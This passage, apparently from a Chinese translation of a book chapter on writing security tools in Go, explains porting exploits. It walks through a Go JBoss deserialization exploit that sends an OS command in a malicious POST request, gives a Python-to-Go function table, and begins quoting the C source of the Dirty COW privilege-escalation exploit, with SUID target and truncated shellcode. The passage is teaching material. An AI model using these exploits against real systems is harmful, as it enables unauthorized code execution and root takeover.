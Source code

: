 这段代码几乎是 Python 版本逐行复制的。因此，我们已经将注释设置与 Python 版本对齐，这样你就能够跟随我们所做的更改。

首先，通过定义序列化的 Java 对象 `byte` 切片 ❶ 来构建有效负载，在操作系统命令之前的部分进行硬编码。与依赖用户定义逻辑将十六进制字符串转换为 `byte` 数组的 Python 版本不同，Go 版本使用 `encoding/hex` 包中的 `hex.DecodeString()`。接下来，确定操作系统命令的长度，然后将其和命令本身附加到有效负载 ❷。通过将硬编码的十六进制结尾字符串解码到现有有效负载上 ❸，完成有效负载的构建。这段代码比 Python 版本稍显冗长，因为我们特意添加了额外的错误处理，但它也能够使用 Go 的标准 `encoding` 包轻松解码十六进制字符串。

接下来，你初始化 HTTP 客户端 ❹，如果需要，配置它进行 SSL 通信，然后构建一个 POST 请求。在发送请求之前，设置必要的 HTTP 头 ❺，以便 JBoss 服务器能正确解析内容类型。注意，你没有显式设置 `Content-Length` HTTP 头。这是因为 Go 的 `http` 包会自动为你处理这一点。最后，你通过调用 `client.Do(req)` ❻ 发送恶意请求。

大部分代码都使用了你已经学过的内容。代码引入了一些小的修改，例如配置 SSL 以忽略无效证书❹，以及添加特定的 HTTP 头❺。或许我们代码中唯一的新颖元素是使用了 `hex.DecodeString()`，这是 Go 的核心函数，用于将十六进制字符串转换为等效的字节表示。在 Python 中，你需要手动完成这一操作。表 9-2 显示了一些额外的常见 Python 函数或结构及其 Go 等效项。

这不是功能映射的全面列表。由于存在太多的变种和边缘情况，无法涵盖移植漏洞利用所需的所有可能函数。我们希望这能帮助你将一些最常见的 Python 函数转换为 Go。

**表 9-2：** 常见 Python 函数及其 Go 等效项

| **Python** | **Go** | **备注** |
| --- | --- | --- |
| `hex(x)` | `fmt.Sprintf("` %#x`",` x`)` | 将整数 x 转换为小写十六进制字符串，并以 `"0x`" 为前缀。 |
| `ord(`c`)` | `rune(`c`)` | 用于检索单个字符的整数（`int32`）值。适用于标准的 8 位字符串或多字节 Unicode。请注意，`rune` 是 Go 中的内建类型，它使得处理 ASCII 和 Unicode 数据变得相对简单。 |
| `chr(`i`) 和 unichr(`i`)` | `fmt.Sprintf("`%+q`", rune(`i`))` | Python 中 `ord` 的反操作，`chr` 和 `unichr` 对整数输入返回长度为 1 的字符串。在 Go 中，你使用 `rune` 类型，并可以通过使用 `%+q` 格式序列将其作为字符串返回。 |
| `struct.pack(`fmt`,` v1`,` v2`,` . . .`)` | `binary.Write(`. . .`)` | 创建数据的二进制表示，并根据类型和字节顺序进行适当格式化。 |
| `struct.unpack(`fmt`,` string`)` | `binary.Read(`. . .`)` | `struct.pack` 和 `binary.Write` 的反操作。将结构化的二进制数据读取到指定的格式和类型中。 |

#### 从 C 移植一个漏洞利用

让我们暂时离开 Python，专注于 C。C 可以说是一种比 Python 更难读懂的语言，但 C 与 Go 的相似性要比 Python 更多。这使得从 C 移植漏洞利用比你想象的要容易。为了演示，我们将移植一个本地特权提升漏洞利用，针对的是 Linux 系统。这个漏洞被称为 *Dirty COW*，涉及到 Linux 内核内存子系统中的竞态条件。该漏洞在公开时影响了大多数（如果不是所有的话）常见的 Linux 和 Android 发行版。该漏洞现已修复，因此你需要采取一些特定的措施来重现以下示例。具体来说，你需要配置一个有漏洞的内核版本的 Linux 系统。设置过程超出了本章的范围，但作为参考，我们使用的是 64 位的 Ubuntu 14.04 LTS 发行版，内核版本为 3.13.1。

该漏洞的多个变种是公开可用的。您可以在*[`www.exploit-db.com/exploits/40616/`](https://www.exploit-db.com/exploits/40616/)*找到我们打算复现的版本。Listing 9-5 展示了经过轻微修改以提高可读性的原始漏洞代码，完整展示如下。

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <unistd.h>
void *map;
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read
char suid_binary[] = "/usr/bin/passwd";

unsigned char sc[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  --snip--
  0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;

void *madviseThread(void *arg)
{
    char *str;
    str=(char*)arg;
```